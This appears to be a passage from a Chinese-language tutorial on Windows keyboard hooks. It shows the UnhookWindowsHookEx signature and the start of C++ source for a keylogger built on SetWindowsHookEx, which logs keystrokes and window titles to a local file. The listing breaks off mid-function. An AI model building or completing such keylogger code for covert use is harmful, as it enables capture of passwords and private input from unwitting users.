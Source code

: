 * 解绑Hook

  * ```C++
    // MSDN https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-unhookwindowshookex
    // 解绑Hook
    
    BOOL UnhookWindowsHookEx(
      [in] HHOOK hhk
    );
    ```



使用`SetWindowsHookEx`实现键盘记录器

```
#include <Windows.h>
#include <string>
#include <fstream>
#include <sstream>
#include <stdio.h>
#include <iostream>
#include <tchar.h>
#pragma once

using namespace std;

//函数定义
BOOL HookKeyBoard();
void unhookKeyboard();
string Dayofweek(int code);
LRESULT CALLBACK HookProcedure(int nCode, WPARAM wParam, LPARAM lParam);


string HookCode(DWORD code, BOOL caps, BOOL shift);

//  全局键盘Hook句柄
HHOOK kKeyboardHook;
//  Shift Key 
BOOL bShift = FALSE;
//  存放键盘消息
string fileName = "E:\\test.txt";
//  Windows Title Text -260 char-
char cWindow[1000];
//  NULL is ok
HWND lastWindow = NULL;


int main()
{
    cout << "start !" << endl;
    //  设置键盘钩子
    if (!HookKeyBoard())
    {
        cout << "Hook KeyBoard Failed!" << endl;
    }
    unhookKeyboard();//释放hook
}

// 设置钩子
BOOL HookKeyBoard()
{
    BOOL bRet = FALSE;

    kKeyboardHook = SetWindowsHookEx(
        WH_KEYBOARD_LL, //  low-level keyboard input events
```